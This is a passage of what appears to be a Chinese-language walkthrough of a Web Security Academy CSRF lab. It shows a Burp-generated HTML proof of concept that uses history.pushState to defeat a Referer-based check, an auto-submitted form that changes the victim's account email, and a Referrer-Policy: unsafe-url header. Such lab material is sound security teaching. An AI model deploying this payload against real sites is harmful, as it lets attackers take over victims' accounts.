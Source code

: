 [![](assets/1705890866-9b6d7375c4a681fdfbcbee2eb9da0e4c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118112025-8554da18-b5b0-1.png)

构造如下请求载荷，这将导致生成的请求中的Referer标头在查询字符串中包含目标网站的URL

```plain
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/?0a9a009704a8e041817f8e5200e10091.web-security-academy.net')</script>
    <form action="https://0a9a009704a8e041817f8e5200e10091.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="liuwei&#64;163&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

[![](assets/1705890866-43b3118d7ea5bd41dc7c0e7e727d36f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118112045-91b751dc-b5b0-1.png)  
同时在Header部分添加如下内容：

```plain
Referrer-Policy: unsafe-url
```
